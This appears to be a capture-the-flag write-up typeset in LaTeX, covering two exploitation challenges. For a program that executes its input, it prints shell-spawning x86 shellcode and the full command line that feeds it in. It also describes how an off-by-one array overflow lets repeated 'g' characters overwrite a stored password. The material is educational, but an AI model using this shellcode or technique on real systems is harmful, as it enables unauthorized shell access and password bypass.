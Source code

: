 \documentclass [12 pt, twoside] {article}
\begin{document}
I still have no idea how this thing compiled...


That being said, I did have an idea of what it should do. Basically it takes the input string
and casts it as a void function pointer. Therefore the string should be made up of "opcodes,"
or operation codes. These are the hex numbers that acutally encode what the processor would do.
Therefore the obvious thing to do is put in an opcode that would open up a shell, they can be found
in abundance here: http://shell-storm.org/shellcode/


The shellcode I used for this one is here:
\begin{lstlisting}
\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80
\end{lstlisting}

However, there is one small problem, we would like to use the shell, therefore it is necessary
to keep stdin open. We do this using the unix "cat" command. Therefore, the real thing is as follows:
\begin{lstlisting}
$ cat <(python -c 'print "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"') - | ./execute
\end{lstlisting}


\subsection{OBO}


This problem is a very troll problem. First thing that is noticable is the amount of out-of-bound
errors this guy is making. One should not use less than or equal to in a for loop with the size of
the array as the parameter. Therefore you see that "G" and "g" are assigned values of 16, ":" is
assigned the value of 10, same as "a," while hex\_table[256] is assigned -1 (The f**k??)


The reason why this thing compiles despite its blatant out-of-bound errors is the way C functions.
When an index that is out of bounds is called, C just pretends the array goes on and on and assigns
a value to where this "element" of the array is supposed to be. Therefore, hex\_table[256] is just
some random memory address 8 bytes after the last element of hex\_table.


The use of this out-of-range "assignment" comes when the program checks for the "complexity" of your
new password. It assigns the hex value's index to 1 if that character is present. Curiously enough,
what if "g" or "G" was in your data stream? And a simple test shows that they will overwrite digits[16]
to be 1! However, as we see in the declaration of variables, password is right after digits! That means
by adding a bunch og "g"'s to your new password, it'll rewrite the old password to "\textbackslash x01"
and give you access to change password.py.
\end{document}
